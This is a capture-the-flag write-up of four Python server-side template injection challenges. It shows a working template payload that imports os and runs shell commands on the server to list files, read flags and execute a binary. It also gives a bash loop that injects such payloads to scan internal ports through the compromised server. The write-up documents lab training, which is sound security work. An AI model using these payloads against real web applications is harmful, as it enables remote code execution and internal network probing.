










### SSTI

## SSTI1

We are welcomed with a website with a username input which allow us to type our "Username"



We also noticed that the "{{ }}" template allow operation like the following



So if we try to push it a bit more and try to get check out file on the server with the following payload

>{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read() }}



In which case we can then try and cat the app.py file



>[!IMPORTANT]
>BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}

## SSTI2

Once again lets try to get file on the server



There is a flag file so what would happend if we try to cat it out ?



>[!IMPORTANT]
>BFS{w0w_1_C4n_R3ad_Fl4g_W1th_Pyth0n_SST1}

## SSTI3

Same process as the last two



There seem to be a getFlag executable so what would happend if we try to execute it ?



>[!IMPORTANT]
BFS{Oh_My..._I_Can_RCE_PyTh0N!!}

## SSTI4

Same old process 



There seem to be a docker compose file meaning that we may have to work with a running docker



The said docker is named toto8042 with a unknown port so lets try and scan every possible port

```sh
#! /bin/bash
set -B
a="https://ssti4.secu-web.blackfoot.dev/?username=%7B%7Brequest.application.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27curl+toto8042%3A"
b="%27%29.read%28%29%7D%7D"
for i in {56791..65535}; do
  c+=$a$i$b
  curl -s -k 'GET' $c | grep 'Hello'
  echo $i
  c=""
done
```

>[!IMPORTANT]
Flag not found

